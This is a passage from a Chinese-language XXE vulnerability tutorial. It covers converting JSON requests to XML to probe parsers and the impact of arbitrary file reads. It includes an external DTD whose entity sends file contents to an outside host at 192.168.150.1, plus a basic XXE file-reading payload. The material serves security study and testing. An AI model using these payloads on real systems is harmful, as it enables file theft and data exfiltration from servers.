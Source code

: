 ```xml
//evil.xml
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://192.168.150.1/1.php?file=%file;'>">  
```

**Json to XML**

​	由于多方面因素，现在人们更倾向于使用json来代替xml，当WEB服务使用xml或者json中的一种进行传输时，服务器可能会接收开发人员并未预料到的数据格式。如果服务器上的XML解析器的配置不完善，在json传输的终端可能会遭受XXE攻击。这里我们对比以下两个请求：

```http
HTTP Request:
POST /netspi HTTP/1.1
Host: someserver.netspi.com
Accept: application/json
Content-Type: application/json
Content-Length: 38
{"search":"name","value":"netspitest"}

HTTP Response:
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 43
{"error": "no results for name netspitest"}
```

​	如果Content-Type头被修改为application/xml，客户端会告诉服务器post过去的数据是XML格式的。但如果你实际传过去的不是该格式的话，服务器不会进行解析，并且会报如下的错：

```http
HTTP Request:
POST /netspi HTTP/1.1
Host: someserver.netspi.com
Accept: application/json
Content-Type: application/xml
Content-Length: 38
{"search":"name","value":"netspitest"}

HTTP Request:
HTTP/1.1 500 Internal Server Error
Content-Type: application/json
Content-Length: 127
{"errors":{"errorMessage":"org.xml.sax.SAXParseException: XML document structures must start and end within the same entity."}}
```

​	该错误提示指出，服务器能够处理XML格式和JSON格式的数据，但现在服务器收到的真实数据格式并不是在Content-Type里声明的XML格式，所以这里自然不能被解析啦。为了解决这个问题，JSON格式被强行转换为XML格式，转换后我们也可以进行XXE测试。Burp中有一个插件Content-Type Converter可实现xml与json的互转。

#### XXE漏洞危害

**任意文件读取**

​	这里有两种方法，基础的上边有提过，还有一种是通过php的伪协议进行，读取到的内容通过base64解码可查看。

```xml
//基础
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
<foo>&xxe;</foo>
```
